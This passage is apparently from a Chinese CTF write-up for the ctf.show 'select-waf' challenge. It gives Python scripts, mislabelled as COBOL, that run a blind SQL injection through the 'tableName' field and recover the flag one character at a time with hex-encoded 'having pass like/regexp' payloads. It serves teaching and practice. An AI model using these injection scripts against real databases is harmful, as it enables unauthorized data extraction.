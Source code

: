 ```cobol
        payload1 = paylaod.format(str_to_hex(flag+j+'%'))
        data = {
            'tableName':payload1
        }
        re = requests.post(url=url,data=data)
        if "$user_count = 1;" in re.text:
            flag+=j
            print("ctfshow{"+flag)
```

### REGEXP

这里有一个问题就是需要25即 %来补充

那我们可不可以不需要25来代表后面还有内容呢

regexp即可

```cobol
ctfshow_user group by pass having pass like (0x63746673686f777b25)
 
这里的代码 我们修改为
 
ctfshow_user group by pass having pass regexp(0x63746673686f777b)
 
即可
```

那我们就再修改一下脚本看看能不能实现  


```cobol
import requests
import string
url = "http://0890718d-8277-4712-8927-3ac132f6bd31.challenge.ctf.show/select-waf.php"
 
paylaod = "ctfshow_user group by pass having pass regexp(0x63746673686f777b{0}"
 
uuid = string.ascii_lowercase+string.digits+"-{}"
def str_to_hex(str):
    return ''.join([hex(ord(c)).replace('0x','') for c in str])
flag =''
for i in range(1,100):
    for j in uuid:
        payload1 = paylaod.format(str_to_hex(flag+j))+")"
        # print(payload1)
        data = {
            'tableName':payload1
        }
        re = requests.post(url=url,data=data)
        if "$user_count = 1;" in re.text:
            flag+=j
            print("ctfshow{"+flag)
```
